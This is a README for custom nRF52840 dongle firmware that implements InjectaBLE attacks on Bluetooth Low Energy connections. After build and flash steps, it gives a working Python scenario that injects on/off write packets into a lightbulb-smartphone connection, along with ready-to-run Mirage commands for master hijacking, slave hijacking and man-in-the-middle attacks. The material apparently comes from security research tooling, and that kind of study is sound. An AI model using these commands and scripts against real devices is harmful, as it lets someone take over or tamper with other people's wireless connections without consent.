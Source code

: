 # injectable-firmware
Custom firmware for nrf52840-dongle, allowing to easily eavesdrop Bluetooth Low Energy communications and perform multiple active attacks based on InjectaBLE strategy.

## Installing the environment
* Install the latest ARM GCC Toolchain (C++ support needed), add it to your PATH variable
* Download the latest NRF5 SDK from nordic semiconductors
* Install nrfutil and add it to your PATH variable
* Set the SDK_ROOT environment variable to match the SDK directory

## Compiling the firmware
Compiling the firmware is straightforward:
```
$ make
```

Then, you can use the send command to flash it on the dongle:
```
$ make send
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit SALTO device
[...]
```

## Injecting packets into an established connection
You can use Mirage framework to interact with the dongle and perform injection attacks. For example, let's imagine you want to inject packets into a Bluetooth Low Energy connection between a lightbulb and a smartphone. You know that the following packets allow to turn the bulb on or off:

* **Write command | handle = 0x0021 | data = 5510010d0a:** turn the bulb on
* **Write command | handle = 0x0021 | data = 5510000d0a:** turn the bulb off

You can write the following scenario, which will inject the "on" packet when the up arrow key is pressed and the "off" packet when the down arrow key is pressed:

```
from mirage.core import scenario
from mirage.libs import io,ble,utils

class injection_lightbulb(scenario.Scenario):

	def onStart(self):
		self.emitter = self.module.getEmitter(self.module["INTERFACE"])

	def onKey(self,key):
		if key == "up":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x01\x0d\x0a"))
		elif key == "down":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x00\x0d\x0a"))
```

1) Save this scenario as **injection_lightbulb.py** in the *scenarios* folder.
2) Run the **ble_sniff** module with the following parameters:
```
sudo ./mirage_launcher ble_sniff SNIFFING_MODE=newConnections SCENARIO=injection_lightbulb INTERFACE=salto0
```

3) Establish the connection between the smartphone and the lightbulb: when you are synchronized with the connection, you can simply inject the previously mentioned packets by pressing up or down arrows keys.


## Hijacking the master role (experimental)
InjectaBLE allows to perform master hijacking attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with the Slave when the Master changes its connection parameters. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_master" ble_hijack1.INTERFACE=salto0 ble_hijack1.ROLE=master
```


## Hijacking the slave role (experimental)
InjectaBLE allows to perform slave hijacking attacks by injecting a LL\_TERMINATE\_IND packet and synchronize with the Master when the Slave disconnects. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_slave" ble_hijack1.INTERFACE=salto0 ble_hijack1.ROLE=slave
```


## Performing a MiTM attack (experimental)
InjectaBLE allows to perform MiTM attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with both legitimate devices when the Master changes its connection parameters. You can perform this kind of attacks using **ble_mitm** module:
```
sudo ./mirage_launcher ble_mitm INTERFACE=salto0 MITM_STRATEGY=injection
```

